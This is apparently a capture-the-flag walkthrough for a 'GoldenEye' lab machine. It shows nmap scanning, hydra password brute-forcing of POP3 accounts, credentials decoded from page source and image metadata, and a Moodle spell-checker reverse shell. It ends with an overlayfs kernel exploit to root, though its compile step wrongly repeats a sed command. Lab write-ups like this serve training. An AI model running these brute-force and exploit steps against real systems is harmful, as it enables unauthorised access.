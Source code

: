 > Golden Eye | James Bond

**export IP=10.10.153.143**

# Nmap

sudo nmap -A -sC -sV -T4 -Pn -vv -p- -oN nmap/initial $IP

```
25/tcp open  smtp    syn-ack ttl 63 Postfix smtpd
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.7 ((Ubuntu))
55006/tcp open  ssl/pop3 syn-ack ttl 63 Dovecot pop3d
55007/tcp open  pop3     syn-ack ttl 63 Dovecot pop3d
```

Looking at the page source we have `terminal.js` and it saya it has `Boris's` password but encrypted.

`//&#73;&#110;&#118;&#105;&#110;&#99;&#105;&#98;&#108;&#101;&#72;&#97;&#99;&#107;&#51;&#114;`

## ASCII encoded

`InvincibleHack3r`

IN port 80, it says our login is at `/sev-home/`. We have an authentication. Let's try `boris`:`InvincibleHack3r`

We have not saying pop3 is running at higher port for security purposes.

# Hydra Time

Ok! we can't login to the pop3 server at port 55006 using boris account so let's try another user we say at first `natalya`. Let's work with hydra.

sudo hydra -l natalya -P /usr/share/wordlists/fasttrack.txt pop3://$IP:55007

```
[55007][pop3] host: 10.10.153.143   login: natalya   password: bird
```

And we can login to the pop3 service using this password.

```
USER natalya
PASS bird
LIST # List messages
RETR 1 # Accesing 1'st message (This gives us an username janus)
RETR 2 # Says us to add severnaya-station.com to our /etc/hosts file and credentials of another user `xenia`:`RCP90rulez!`
```

Let's try Boris password too.

sudo hydra -l boris -P /usr/share/wordlists/fasttrack.txt pop3://$IP:55007

```
[55007][pop3] host: 10.10.153.143   login: boris   password: secret1!
```

Looking at Boris's mail we found something suspicious

```
From: alec@janus.boss
We are said that Xenai is trying to do something bad. We already have cred's of Xenia.
```

And accessing `http://severnaya-station.com/gnocertdir` we have a login and we can login as xenia. And looking at his messages we have another user `Doak`.

Let's try hydra again to crack Doak's pop3 password.

sudo hydra -l doak -P /usr/share/wordlists/fasttrack.txt pop3://$IP:55007

```
[55007][pop3] host: 10.10.153.143   login: doak   password: goat
```

We have doak's password `dr_doak`:`4England!`. And looking at his moodle account he has a `secret.txt`. It says something juicy is located in `/dir007key/for-007.jpg`

And exiftool the image we have `eFdpbnRlcjE5OTV4IQ==` => `xWinter1995x!`

We got admin credentials `admin`:`xWinter1995x!`. And we can login to the admin's moodle account.

## Hint : SPell Checker Plugin. Enabling the PSpellSpell and placing our python reverse shell we have one step to go. Now let's create a new entry and click `Toggle SpellChecker`

We are in as www-data. We are said that this system is affected to the overluayfs exploit. Looking at the kernel version let's pull exploit from searchsploit.

Be don't have an gcc to compile the .c file. But we have cc. Let's replace gcc with cc.

`sed -i "s/gcc/cc/g" exploit.c`

And now let's compile

`sed -i "s/gcc/cc/g" exploit.c`

Running it we are root!

```
568628e0d993b1973adc718237da6e93
```
